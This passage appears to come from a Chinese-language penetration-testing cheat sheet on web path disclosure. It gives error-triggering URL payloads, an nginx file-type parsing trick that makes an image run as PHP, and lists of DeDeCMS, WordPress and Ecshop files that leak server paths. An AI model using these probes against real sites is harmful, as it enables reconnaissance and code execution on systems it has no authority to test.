 `www.xxx.com/news.php?id=149′`
`www.xxx.com/researcharchive.php?id=-1`


#### nginx文件类型错误解析爆路径

当我们遇到Web服务器是nginx，且存在文件类型解析漏洞时，可以在图片地址后加`/x.php`，
该图片不但会被当作`php`文件执行，还有可能爆出物理路径。

`www.xyz.com/123.jpg/x.php`



#### DeDeCms

```
/member/templets/menulit.php
/plus/paycenter/alipay/return_url.php
/plus/paycenter/cbpayment/autoreceive.php
/paycenter/nps/config_pay_nps.php
/plus/task/dede-maketimehtml.php
/plus/task/dede-optimize-table.php
/plus/task/dede-upcache.php
```

#### WordPress

```
/wp-admin/includes/file.php
/wp-content/themes/baiaogu-seo/footer.php
```

#### Ecshop商城系统暴路径漏洞文件

```
/api/cron.php
/wap/goods.php
/temp/compiled/ur_here.lbi.php
/temp/compiled/pages.lbi.php
/temp/compiled/user_transaction.dwt.php
/temp/compiled/history.lbi.php
/temp/compiled/page_footer.lbi.php
/temp/compiled/goods.dwt.php
/temp/compiled/user_clips.dwt.php
/temp/compiled/goods_article.lbi.php
/temp/compiled/comments_list.lbi.php
/temp/compiled/recommend_promotion.lbi.php
/temp/compiled/search.dwt.php
/temp/compiled/category_tree.lbi.php
/temp/compiled/user_passport.dwt.php
/temp/compiled/promotion_info.lbi.php
/temp/compiled/user_menu.lbi.php
/temp/compiled/message.dwt.php
/temp/compiled/admin/pagefooter.htm.php
/temp/compiled/admin/page.htm.php
/temp/compiled/admin/start.htm.php
/temp/compiled/admin/goods_search.htm.php
/temp/compiled/admin/index.htm.php
/temp/compiled/admin/order_list.htm.php
/temp/compiled/admin/menu.htm.php
/temp/compiled/admin/login.htm.php
/temp/compiled/admin/message.htm.php
/temp/compiled/admin/goods_list.htm.php
/temp/compiled/admin/pageheader.htm.php
/temp/compiled/admin/top.htm.php
/temp/compiled/top10.lbi.php
/temp/compiled/member_info.lbi.php
/temp/compiled/bought_goods.lbi.php
```